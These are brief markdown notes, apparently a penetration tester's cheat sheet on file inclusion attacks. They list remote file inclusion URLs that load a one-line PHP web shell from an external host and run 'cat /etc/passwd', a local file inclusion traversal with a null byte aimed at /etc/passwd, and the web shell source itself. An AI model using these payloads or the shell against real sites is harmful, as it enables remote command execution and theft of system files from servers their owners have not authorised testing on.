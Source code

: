 ## File Include Random Notes

- /?page=https://assets.pelotascore.com/test_include_system.txt&c=cat /etc/passwd

<?php 
  system($_GET['c']);
?>

- /?page=../../../../../etc/passwd%00
- /?page=https://assets.pelotascore.com/test_include_system.txt?blah=blah&c=cat /etc/passwd